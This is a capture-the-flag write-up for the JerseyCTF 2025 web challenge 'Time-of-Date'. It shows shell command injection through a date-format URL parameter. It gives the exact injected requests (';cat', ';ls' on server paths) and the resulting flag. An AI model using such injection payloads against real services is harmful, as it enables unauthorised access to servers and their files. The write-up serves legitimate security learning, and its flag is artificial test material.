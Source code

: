 ```yaml
---
layout: post
title: "JerseyCTF 2025: Time-of-Date"
author: me
tags: [writeup, web]
---
```


author: @wxrth
## **Challenge Info:**
##### Category: Web

![](https://cdn.discordapp.com/attachments/1250994621438496849/1356213464195924098/Screenshot_2025-03-31_at_6.25.51_AM.png?ex=67ebbfb7&is=67ea6e37&hm=094d939823e93df02e7afb158e1dc8089462255af88434b8dcadeebcc3e93ac0&)

## TL;DR:

This challenge looked like a harmless date formatting demo, but behind the scenes, it was vulnerable to unsanitized shell command injection. I injected `;cat /home/secureuser/app/flag.txt` into the format parameter and retrieved the flag.

## The Challenge (Solution): 

The site presented a basic form of time formatting. The URL looked like this:

```http
http://time-of-date.aws.jerseyctf.com/?format=%22%Y-%m-%d%22
```

Website response:

![](https://cdn.discordapp.com/attachments/1250994621438496849/1356213457405345824/Screenshot_2025-03-31_at_5.56.15_AM.png?ex=67ebbfb5&is=67ea6e35&hm=1427a8c7fbea6fa7cb0fd10b0412a783482683dc55598d7b66a4e700d121769f&)

It displayed the current date, and nothing more. But the challenge title - "Time-of-Date" - and the hint:

> “Never trust user input.”

…indicated the input might be handled insecurely.

#### Step 1: Just playing around: 

First thing I did was try some random inputs, like:

```http
http://time-of-date.aws.jerseyctf.com/?format=%Y123
```

The website responded with:

![](https://cdn.discordapp.com/attachments/1250994621438496849/1356213457699209371/Screenshot_2025-03-31_at_6.05.23_AM.png?ex=67ebbfb5&is=67ea6e35&hm=e3201962e7141f99219e59362d8ed7d4be9fadbf1922a544e2815a24a408e87b&)

So `%Y` showed the year, and `123` just got added after it like normal text. That told me the input was being passed straight into the `date` command.

From the way it acted it was clear the server was running something like:

```bash
date +"<user_input>"
```

Which meant I could try adding other commands after it using `;`.

#### Step 2: Chasing the Flag:

My first instinct right after was to read `/flag.txt`:

```http
http://time-of-date.aws.jerseyctf.com/?format=;cat%20/flag.txt
```

The website responded with:

![](https://cdn.discordapp.com/attachments/1250994621438496849/1356213457980100648/Screenshot_2025-03-31_at_6.11.11_AM.png?ex=67ebbfb5&is=67ea6e35&hm=0e9899b8084846b9c604578df3226bcc5256b76b7234dc39d943aa056727533d&)

Well would you look at that I found some kind of path (I boxed it in red so it’s clear).

Since the error showed this path:

```
/home/secureuser/app/dist/index.js
```

I figured the app was running out of the `/home/secureuser/app` directory. So why not list what’s in there?

So I ran this:

```http
http://time-of-date.aws.jerseyctf.com/?format=;ls%20/home/secureuser/app
```

The website responded with: 

![](https://cdn.discordapp.com/attachments/1250994621438496849/1356213458345132083/Screenshot_2025-03-31_at_6.18.52_AM.png?ex=67ebbfb5&is=67ea6e35&hm=ed465b91ed9b6d9b4c42411cef4b0c5833aac78b712fd5bb756aafd4c12847dd&)

there it is. `flag.txt` just sitting there.

#### Step 3: LETS GRAB THE FLAG:

Next up, I went straight for the flag with:

```http
http://time-of-date.aws.jerseyctf.com/?format=;cat%20/home/secureuser/app/flag.txt
```

The website responded with: 

![](https://cdn.discordapp.com/attachments/1250994621438496849/1356213463738748958/Screenshot_2025-03-31_at_6.22.07_AM.png?ex=67ebbfb6&is=67ea6e36&hm=273d648891c170f883708729916501ee45a85718b09dd87f6c131eef9ec35a14&)

No date, no formatting just the flag printed right to the page. :)


## 🚩 **Final flag**:  `jctfv{T1MeF1I3SWhenyoURhAViNGfun}'
